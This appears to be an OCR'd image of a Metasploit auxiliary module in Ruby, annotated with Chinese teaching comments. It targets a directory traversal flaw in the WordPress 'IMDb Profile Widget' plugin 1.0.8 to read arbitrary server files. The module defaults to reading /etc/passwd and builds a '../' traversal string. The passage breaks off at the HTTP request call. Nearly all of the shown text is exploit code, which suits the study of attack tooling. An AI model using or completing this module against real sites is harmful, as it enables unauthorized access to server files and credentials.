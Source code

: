 ```
class Metasploit3 < Msf::Auxiliary

  # 引入三个 module，照搬，具体可以查看文档

  include Msf::Auxiliary::Report

  include Msf::Exploit::Remote::HTTP::Wordpress

  include Msf::Auxiliary::Scanner

  # 初始化函数

  def initialize(info = {})

    super(update_info(info,
      # [Vendor] [Software] [Root Cause] [Vulnerability type] 
      'Name'           => 'WordPress IMDb Profile Widget Plugin File Read Vulnerability',
      # 描述
      'Description'    => %q{
        This module exploits a directory traversal vulnerability in WordPress Plugin
        "IMDb Profile Widget" version 1.0.8, allowing to read arbitrary files with the
        web server privileges.
      },
      # 相关vulnerability 或 exploit的参考
      'References'     =>
        [
          ['URL', 'https://www.exploit-db.com/exploits/39621/']
        ],
      # 作者
      'Author'         =>
        [
          'CrashBandicot @DosPerl', # Vulnerability discovery
          'blinking.yan <blinking.yan[at]gmail.com>' # Metasploit module
        ],
      'License'        => MSF_LICENSE
    ))
    # 注册需要参数
    register_options(
      [
        OptString.new('FILEPATH', [true, 'The path to the file to read', '/etc/passwd']),
        OptInt.new('DEPTH', [ true, 'Traversal Depth (to reach the root folder)', 7 ])
      ], self.class)

  end

  # 用于支持 check 命令；在具体执行exploit前，检查是否存在漏洞

  def check

    # 检查imdb-widget版本
    check_plugin_version_from_readme('imdb-widget', '1.0.8')

  end

  # 执行exploit

  def run_host(ip)

    traversal = "../" * datastore['DEPTH']
    filename = datastore['FILEPATH']
    filename = filename[1, filename.length] if filename =~ /^\//
    # 发送读取文件的http请求
    res = send_request_cgi({
```